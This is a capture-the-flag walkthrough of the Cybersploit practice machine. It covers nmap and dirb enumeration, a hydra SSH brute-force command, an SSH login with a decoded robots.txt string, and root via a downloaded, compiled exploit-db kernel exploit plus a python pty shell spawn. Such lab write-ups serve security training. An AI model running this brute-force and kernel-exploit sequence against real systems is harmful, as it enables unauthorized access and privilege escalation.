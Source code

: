 ## Nmap Scan

```
nmap -sV -sC -A 192.168.53.92 --open -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 08:15 EDT
Nmap scan report for 192.168.53.92
Host is up (0.0045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.56 seconds

```

## Dirb scan

```
dirb "http://192.168.53.92"

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Aug  2 08:21:14 2023
URL_BASE: http://192.168.53.92/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

                                                                             GENERATED WORDS: 4612

---- Scanning URL: http://192.168.53.92/ ----
                                                                             + http://192.168.53.92/cgi-bin/ (CODE:403|SIZE:289)                         
+ http://192.168.53.92/hacker (CODE:200|SIZE:3757743)                       
+ http://192.168.53.92/index (CODE:200|SIZE:2333)                           
+ http://192.168.53.92/index.html (CODE:200|SIZE:2333)                      
+ http://192.168.53.92/robots (CODE:200|SIZE:53)                            
+ http://192.168.53.92/robots.txt (CODE:200|SIZE:53)                        
+ http://192.168.53.92/server-status (CODE:403|SIZE:294)                    
                                                                               
-----------------
END_TIME: Wed Aug  2 08:21:18 2023
DOWNLOADED: 4612 - FOUND: 7

```

## Finding Lead

- In the home page , we got username in source code 
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/c0324ddc-fc4c-410c-ac88-49010954a409)

- In robots.txt found -- `Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=` -- base64 decoded text -- `cybersploit{youtube.com/c/cybersploit}`

## Hydra scan for SSH 

`hydra -l itsskv -P /usr/share/wordlists/rockyou.txt 192.168.53.92 -t 4 ssh`

- No use taking long time to bruteforce used the username - `itsskv`

## SSH login
- Add the IP in `/etc/hosts` as `192.168.58.92 cybersploit`
- ssh with the username:`itsskv` and password as `cybersploit{youtube.com/c/cybersploit}` 

## User flag
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/d40193c7-8f08-48b3-bc74-243551f120f8)


## Root Flag

- Tried sudo -l to identify process, not able to switch user also to cybersploit
- so using this command `uname -a` , we can check for kernal version, we can see its old one, so we can get an exploit from exploit-db.
https://www.exploit-db.com/download/37292

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/160e6cff-5ba5-41c9-927e-fb2be866207c)

- Directly can't able to import the exploit, so we can use 
`scp 37292.c itsskv@cybersploit:/home/itsskv/ `  , to transfer the file from local to remote.

- Now we can complie it using `gcc 37292.c -o exploit`

- `./exploit` --> now we got the shell, so to entering into the interactive shell we can use this python command 
`python -c 'import pty;pty.spawn("/bin/bash")'`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e227b4e7-65a3-4643-b180-8afa440af1c5)



  
